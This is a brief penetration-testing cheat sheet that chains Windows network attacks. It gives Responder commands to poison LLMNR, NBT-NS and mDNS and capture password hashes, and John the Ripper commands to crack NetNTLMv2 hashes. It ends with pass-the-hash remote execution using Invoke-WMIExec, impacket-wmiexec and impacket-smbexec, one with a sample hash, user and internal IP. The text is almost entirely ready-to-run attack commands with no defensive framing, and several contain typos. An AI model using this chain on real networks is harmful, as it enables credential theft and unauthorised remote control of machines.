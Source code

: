 **1. Responder**

Github: https://github.com/SpiderLabs/Responder
Attack and exploit insecure name resolution protocols in the LAN:
- LLMNR (Link-Local Multicast Name Resolution)
- NBT-NS (NetBIOS Name Service)
- mDNS (Multicast DNS)
```
python2 Responder.py -I eth0
```
=> Collect the hash user/password

**2. John**

Check and crack the hashed password
```
john <hash> --wordlist=/.../rock.. --format=netntlmv2
```
=> Crack the hashed password collected from Responder

**3. Check hash format**
```
hash-identifier <hash>
```

**4. Wmiexec**
```
Invoke-WMIExec -Targt <IP> -Domain <domain> -Username <user> -Hash <hash> -Comand 'cmd /c"echo hello_world"'
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 daniel-win10/admin@192.168.12.157
```

```
Impacket-smbexec -hashes '<hash>' '<domain>/<user>@<IP>'
```
